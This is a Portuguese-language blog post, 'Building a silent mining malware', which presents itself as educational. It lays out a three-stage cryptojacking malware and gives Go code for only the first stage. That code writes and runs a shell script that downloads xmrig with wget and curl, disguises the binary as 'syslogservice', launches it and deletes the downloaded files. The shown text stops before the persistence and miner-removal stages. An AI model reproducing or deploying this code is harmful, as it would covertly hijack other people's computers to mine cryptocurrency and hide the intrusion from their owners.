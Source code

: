 ```yaml
---
layout: post
title:  "Building a silent mining malware"
date:   2022-08-10 01:51:18 -0300
categories: ["Cyber Security"]

---
```

Com a popularidade das crypto moedas investir em mineração certamente foi algo que passou pela cabeça de muitas pessoas, mas os altos custos de hardware e de energia fez com que fosse inviável ou não rentável para muitas pessoas. Mas e se você pudesse apenas receber os lucros da mineração, sem se preocupar com os gastos em hardware e energia, e além disso usar centenas ou milhares de computadores para isso? Foi isso que motivou cyber criminosos a criar botnets com várias maquinas infectadas com esse malware minerador.

## Disclaimer
Esse artigo foi escrito únicamente para fins de aprendizados para entusiastas ou profissionais de cybersegurança, não me responsabilizo pelo uso indevido do conhecimento adquirido aqui.

<!-- Esse malware sera criado usando Go porque é uma linguagem simples e compilada. -->
## Code
Nosso malware vai funcionar em 3 etapas:
1. Baixar e configurar o xmrig e excluir os arquivos gerados.
2. Criar persistência na máquina.
3. Encontrar e remover outros mineradores na máquina infectada.


### Etapa 1
Primeiramente temos que pegar a url de download do minerador, podemos encontrar facilmente no próprio repositório do xmrig.
![](../assets/images/xmrig_github.png)
```go
func getMiner() {
	minerLink := "https://github.com/xmrig/xmrig/releases/download/v6.16.3/xmrig-6.16.3-linux-static-x64.tar.gz"

	payload := "wget " + minerLink + "; curl -L " + minerLink + "; tar -zvxf xmrig-6.16.3-linux-static-x64.tar.gz; mv config.json xmrig-6.16.3; cd xmrig-6.16.3; mv xmrig syslogservice; ./syslogservice; pid=$!; wait $pid; cd ..; rm xmrig-6.16.3-linux-static-x64.tar.gz; pid=$!; wait $pid; rm -R xmrig-6.16.3; pid=$!; wait $pid; rm k4ynv2;"

	data := []byte(payload)

	ioutil.WriteFile("k4yn.sh", data, 0644)

	exec.Command("chmod", "777", "k4yn.sh").Output()
	exec.Command("chmod", "+x", "k4yn.sh").Output()
	exec.Command("/bin/sh", "k4yn.sh").Output()
}
```